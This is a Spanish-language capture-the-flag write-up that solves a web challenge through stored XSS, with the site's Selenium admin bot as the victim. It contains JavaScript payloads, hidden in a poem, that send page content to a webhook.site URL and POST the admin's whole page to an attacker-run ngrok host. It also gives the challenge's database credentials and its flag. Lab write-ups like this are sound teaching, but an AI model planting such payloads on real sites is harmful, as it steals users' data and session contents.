






# batalla_de_gallinas

Lo primero que hago es montar el reto en local. Es importante este paso porque como veo que esta montando varios conetenedores docker, es importante saber como funcionan y como están interconectados entre sí. 

Tras analizar el `docker.compose.yml` vemos que se esta generando una base de datos con Mariadb, y otro el cual se corresponde a la web. Ambos contenedores están conectados entre si. También contiene otros tres contenedores: `selenium-chrome`, `selenium-hub`, y `redis`. El más importante es `selenium-chrome`, más adelate veremos porque.

En la web nos encontramos con una página de login en la cual nos deja registrarnos con los parametros `user`, `about_me`, y `password`.



Si intentamos registarnos con el usuario `admin` no nos deja, porque ya existe ese usuario. 

Nos creamos un usuario, y vemos que podemos subir un poema, y hacer que un administrador lo revise.



Con burpsuit, podemos analizar que hace la web cuando le damos al boton `Request poem review`, y este lo que hace es pasar los siguientes parámetros a `http://0.0.0.0:12105/visit`

- `Cookie: session=…`
- `csrf_tocken=…`



Analizando el código de la web (el archivo `app.py`):

```python
@app.route('/visit/', methods=['POST'])
@login_required
def doVisit():
    ip = request.remote_addr
    last_timestamp = last_visit.get(ip)
    current_timestamp = time()
    if last_timestamp and (current_timestamp - last_timestamp < VISIT_COOLDOWN):
        flash(f"Current user recently asked for a visit, please wait at least {VISIT_COOLDOWN} seconds between visits", 'warning')
        app.logger.info(f"Rejected enqueue {ip}, current: {current_timestamp}, last {last_timestamp}")
    else:
        last_visit[ip] = current_timestamp
        visit_url = f"http://babypoems:8080/poem/?username={current_user.get_id()}"
        q.enqueue(visit_user_page, visit_url, admin_password)
        flash("Enqueued successfully, an admin will review your poem soon", 'success')
        app.logger.info(f"Enqueued visit from {ip} to {visit_url}, admin pw: {admin_password}")

    return redirect(url_for('poem'))
```

Vemos que cuando nos deja hacer la petición se visita la siguiente URL con el parametro `username=valor` siendo el valor, el id de usuario. Si intentamos nosotros como usuario hacer la petición a la pagina con algun parametro: `http://0.0.0.0:12105/poem/?username=admin` nos salta un banner diciendo que solo los administradores pueden realizar esta opción.

---

Vamos a abordar la parte de la base de datos. Al iniciar el contenedor docker, se establece un contenedor que corresponderá a la base de datos (en mariadb). Si nos conectamos al contenedor, con: `docker exec -it <nombre_contenedor> /bin/bash`, podemos autenticarnos en mariadb con el usuario `babypoemsdbuser` y su contraseña `babypoemsdbpassword`. Listando las databases existentes (`SHOW DATABASES;`) nos conectamos a babypoemsdb (`USE babypoemsdb;`). Estando aquí, listamos todos los usuarios y contraseñas mediante la querry `SELECT * FROM user;`



Vemos nuestro usuario y el usuario administrador. Pero de esta manera no conseguimos nada. Teniendo en cuenta que mariadb es bastante seguro, no vamos a intentar hacer una inyección SQL.

---

Otra opción que se nos puede ocurrir es abordar un secuestro de Cookies. Queremos obtener la cookie del usuario admin, para así secuestrar su sesión y poder ver el campo de `aboutme`. El servidor tiene configurado una flag en las cookies, `HttpOnly` está activado. Esta flag significa que desde javascript no vamos a poder leer las cookies del usuario, por lo tanto buscamos otro punto de entrada.

Revisando los archivos de la web, vemos un archivo llamado `visitor.py` el cual se ejecuta cuando submietamos el poema para que lo revise un administrador.

```python
from time import sleep
from selenium import webdriver
from selenium.webdriver.common.by import By
from selenium.webdriver.common.keys import Keys

def visit_user_page(url, adminpwd):
    options = webdriver.ChromeOptions()
    driver = webdriver.Remote(
         command_executor="http://selenium-hub:4444",
         options=options
    )
    try:
        print(f"Visiting {url}")
        driver.implicitly_wait(5)  # 5 sec timeout for finding elements
        driver.get("http://babypoems:8080/login")
        login_f = driver.find_element(By.ID, "usernameinput")
        login_f.send_keys("admin")
        pw_f = driver.find_element(By.ID, "passwordinput")
        pw_f.send_keys(adminpwd)
        pw_f.send_keys(Keys.ENTER)
        driver.get(url)
        sleep(5)  # Admire during 5 seconds how beautiful the user poem is
    finally:
        driver.quit()
```

Este lo que está haciendo es desde el contenedor `selenium-chrome` usar un navegador que se autentique con nuestro usuario, visualizará el problema el problema durante 5 segundos y se saldrá.

Cada vez que submiteamos el `js` que ponemos en el poema, se ejecutará cada vez que se visite a ese usuario. Este es un buen punto de entrada a la hora de poder obtener la flag, que si lo recordamos, está en el campo “About me” del usuario admin.

Se me ocurre que si conseguimos que el bot cargue la pagina correspondiente a el administrador: `https://…/poem/?username=admin` se guarde el `html` y despues enviárnoslo a un servidor que controlemos nosotros por el método POST, podremos obtener el campo “About me” del administrador. Este sería el código en `javascript`:

```python
<script>
fetch('https://3b51a408a705-webth-vulnerable.numa.host/poem/?username=admin')
.then(response => response.text())
.then(data => {

    const inputValue = document.querySelector("input").value;
    

    const serverUrl = 'https://webhook.site/b52153d3-fbf8-457f-a2eb-6b5d24d6735b';
    const fullUrl = `${serverUrl}?data=${encodeURIComponent(inputValue)}`;
    

    fetch(fullUrl);
});
</script>
```

Con este script vemos que el admin esta visualizando correctamente nuestro poema, porque estamos renderizando el HTML, y pasandolo a un servidor controlado.



Vemos que aun así nos carga nuestro html en vez del administrador. Como el bot directamente está como administrador no hará falta pedirle que visite `/poem/?username=admin` sino que lo hará directamente, por lo que modificando el script anterior, para que una vez el bot visite su pagina, cargemos el html y lo pasemos al servidor controlado, quedando el siguiente script:

```python
<script>

    document.addEventListener('DOMContentLoaded', () => {

        const htmlContent = document.documentElement.outerHTML;

        const serverUrl = 'https://ab4a-193-147-77-9.ngrok-free.app';

        fetch(serverUrl, {
            method: 'POST',
            headers: {
                'Content-Type': 'text/plain',
            },
            body: htmlContent
        }).then(() => {
            console.log("Datos enviados al servidor con éxito.");
        }).catch(error => {
            console.error("Error al enviar los datos:", error);
        });
    });
</script>
```

Con esto conseguimos ver cual es la flag.



`URJC{4qu3l_h4ck3r_d3_l4s_4nd3s}`
